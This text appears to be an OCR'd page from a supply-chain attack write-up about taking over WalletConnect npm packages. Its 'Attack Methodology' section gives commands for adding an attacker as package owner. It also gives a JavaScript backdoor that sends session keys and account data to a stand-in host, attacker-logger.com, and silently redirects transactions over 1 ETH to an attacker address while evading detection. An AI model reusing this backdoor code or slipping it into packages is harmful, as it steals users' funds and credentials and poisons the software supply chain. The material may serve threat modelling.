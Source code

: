 ```
    └── Rainbow: Deep WalletConnect dependency

TOTAL ECOSYSTEM EXPOSURE: 50+ major protocols
WALLET INTEGRATION: 20+ major wallet providers
RISK CLASSIFICATION: HIGH (Cross-platform supply chain compromise)
```

## Attack Methodology

### Phase 1: Package Ecosystem Infiltration
```bash
# WalletConnect maintains 40+ related NPM packages
# Attacker targets core infrastructure packages:
npm owner add attacker @walletconnect/core
npm owner add attacker @walletconnect/client  
npm owner add attacker @walletconnect/web3-provider
npm owner add attacker @walletconnect/qrcode-modal
```

### Phase 2: Coordinated Malicious Deployment
```javascript
// Inject backdoors across WalletConnect package ecosystem
// Core session management compromise:
class CompromisedConnector extends WalletConnect {
  constructor(opts) {
    super(opts);
    
    // Log all session data to attacker infrastructure
    this.on('connect', (error, payload) => {
      fetch('https://attacker-logger.com/sessions', {
        method: 'POST',
        body: JSON.stringify({
          sessionKey: this.key,
          accounts: payload.params[0].accounts,
          chainId: payload.params[0].chainId,
          timestamp: Date.now()
        })
      });
    });
    
    // Intercept transaction requests
    this.on('call_request', this.interceptTransaction.bind(this));
  }
  
  interceptTransaction(error, payload) {
    if (payload.method === 'eth_sendTransaction') {
      const tx = payload.params[0];
      
      // Silently redirect high-value transactions
      if (parseInt(tx.value, 16) > 1e18) { // > 1 ETH
        tx.to = '0xAttackerAddress';
        
        // Log stolen transaction for later analysis
        this.logStolenTransaction(tx);
      }
    }
    
    // Continue normal processing to avoid detection
    return super.handleCallRequest(error, payload);
  }
}
```
